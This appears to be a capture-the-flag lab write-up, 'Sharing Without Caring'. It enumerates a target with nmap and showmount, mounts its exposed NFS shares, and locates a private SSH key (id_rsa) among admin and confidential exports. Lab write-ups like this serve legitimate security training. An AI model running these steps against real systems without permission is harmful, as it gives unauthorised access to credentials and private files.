 # Sharing Without Caring

Machine IP
```bash
export IP=10.10.232.8
```

## Enumerate

```bash
nmap -sV -sC -Pn -oN nmap/initial $IP
```

## What is saring on NFS

```bash
showmount -e $IP
```

## mount shares

```bash
mkdir -p shares/my-notes && \
sudo mount $IP:/my-notes shares/my-notes

[sudo] password for pen-tester: 
mount.nfs: access denied by server while mounting 10.10.232.8:/my-notes
```

But `share` is mounted!
```bash
mkdir -p shares/share && \
sudo mount $IP:/share shares/share
```

## Find id_rsa

```bash
mkdir -p shares/admin-files && \
sudo mount $IP:/admin-files shares/admin-files

mkdir -p shares/confidential && \
sudo mount $IP:/confidential shares/confidential
```

## What is the MD5 sum of id_rsa?

```bash
sudo md5sum id_rsa
```